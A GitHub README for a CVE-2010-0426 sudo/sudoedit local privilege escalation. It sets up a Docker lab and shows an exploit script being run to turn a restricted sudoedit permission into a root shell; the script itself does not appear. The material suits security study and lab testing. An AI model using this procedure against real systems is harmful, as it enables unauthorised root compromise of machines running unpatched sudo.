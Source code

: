 # Sudo 1.6.x<=1.6.9p21 and 1.7.x<=1.7.2p4 Local Privilege Escalation

Sudo (su "do") allows a system administrator to give certain users (or groups of users) the ability to run some (or all) commands as root while logging all commands and arguments.

## Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker build -t privesc/cve-2010-0426 .
    docker run --rm -it privesc/cve-2010-0426

And it will spawn a interactive shell with low user privileges.

## Vulnerable code

The bug was found in sudoedit, which does not handle the 'sudoedit' command correctly, this allows a malicious user to replace the real sudoedit command with an arbitrary command.

Local attackers could exploit this issue to run arbitrary commands as the 'root' user. Successful exploits can completely compromise an affected computer.

## Exploit

To exploit this target just run:

    ./exploit.sh

If you are using this vulnerable image, you can just run:

	user@023b47ff82ca:~$ sudo -V
	Sudo version 1.7.2
	user@023b47ff82ca:~$ sudo -l
	User user may run the following commands on this host:
		(root) NOPASSWD: sudoedit /etc/fstab
	user@023b47ff82ca:~$ ./exploit.sh /etc/fstab
	[+] CVE-2010-0426 exploit by t0kx
	[+] Prepared sudoedit...
	[+] Run sudoedit
	root@023b47ff82ca:/tmp# id
	uid=0(root) gid=0(root) groups=0(root)
	root@023b47ff82ca:/tmp#


## Credits

This flaw was found by Slouching.

## Disclaimer

This or previous program is for Educational purpose **ONLY**. Do not use it without permission. The usual disclaimer applies, especially the fact that me (t0kx) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears **NO** responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not t0kx's responsibility.
